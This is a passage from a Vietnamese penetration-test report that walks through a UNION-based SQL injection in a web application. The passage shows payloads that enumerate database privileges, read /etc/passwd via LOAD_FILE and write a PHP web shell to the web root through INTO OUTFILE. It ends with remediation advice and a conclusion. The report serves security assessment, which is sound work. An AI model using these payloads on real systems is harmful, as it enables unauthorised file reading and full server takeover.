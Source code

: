 ![image](https://hackmd.io/_uploads/Bk9Hw1Fgxg.png)
<p style="text-align:center;"><em>Xác định user hiện tại</em></p>

Kiểm tra tiếp theo là quyền của user này. 
> UNION SELECT 1,2,grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'admin'@'localhost'"

![image](https://hackmd.io/_uploads/BJUgokFxxe.png)
<p style="text-align:center;"><em>Xác định quyền user hiện tại</em></p>

Thì hầu hết các quyền cao nhất đều nằm ở user này. 

Từ đây mình có thể tác với file chẳng hạn như load 1 file lên để đọc. 
> UNION SELECT 1,2,3,LOAD_FILE('/etc/passwd')

![image](https://hackmd.io/_uploads/rJqEn1Fglx.png)
<p style="text-align:center;"><em>Đọc file /etc/passwd</em></p>

Kiểm tra xem có biến `secure_file_priv` nếu có thì chắc chắn mình ghi file được.
```
UNION SELECT 1,2,variable_name,variable_value FROM performance_schema.global_variables WHERE variable_name="secure_file_priv"
```
![image](https://hackmd.io/_uploads/HJTB6JFxeg.png)
<p style="text-align:center;"><em>Kiểm tra quyền ghi file</em></p>

Từ đây, mình ghi 1 `web shell` như sau: 
> UNION SELECT "","","",'<?php system($_REQUEST[1]); ?>' INTO OUTFILE ('/var/www/html/shell.php')

![image](https://hackmd.io/_uploads/SkFfQgKlgg.png)
<p style="text-align:center;"><em>Ghi một web shell</em></p>

Sau đó, truy cập file shell.
![image](https://hackmd.io/_uploads/HkGPQxFexe.png)
<p style="text-align:center;"><em>Truy cập file shell</em></p>
    
### Recommendations 
Sử dụng prepared statements để tránh SQL Injection thay vì nối chuỗi trong truy vấn. Không dùng tài khoản DB có quyền cao như root cho ứng dụng; thay vào đó, tạo user riêng chỉ có quyền cần thiết. Luôn validate kỹ dữ liệu đầu vào và thiết lập cơ chế log để phát hiện truy vấn bất thường
    
### References 
- BurpSuite 

# III. Kết luận
Quá trình phân tích bảo mật đã phát hiện ra lỗ hổng nghiêm trọng trong ứng dụng. Lỗ hổng này xuất phát từ việc thiếu kiểm soát đầu vào, xử lý dữ liệu không an toàn,
và không áp dụng các biện pháp xác thực/phân quyền đầy đủ. Tác động tiềm tàng bao gồm lộ dữ liệu người dùng, leo thang đặc quyền, và kiểm soát máy chủ, đe dọa nghiêm trọng đến tính bảo mật và toàn vẹn của hệ thống.
<p style="text-align: right;">Trân trọng, h4gphwc</p>

